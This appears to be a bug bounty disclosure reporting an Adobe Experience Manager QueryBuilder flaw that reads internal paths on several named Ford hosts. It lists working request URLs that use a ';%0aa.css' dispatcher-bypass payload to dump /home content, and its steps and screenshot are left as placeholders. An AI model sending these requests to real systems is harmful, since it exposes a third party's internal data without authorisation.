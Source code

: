 ## Title
AEM QueryBuilder Internal Path Read

## Summary
AEM QueryBuilder Internal Path Read

## Steps To Reproduce
1. Visit [website]
2. See the data.

## Below is a screenshot
{}

## Other affected assets
https://commliblb-dev-vip-chiadc01-rprxy2-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-qa-vip-ashadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-qa-vip-chiadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-vip-chiadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-vip-ashadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1

## References:
https://speakerdeck.com/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs?slide=91

## Impact
Internal Path Read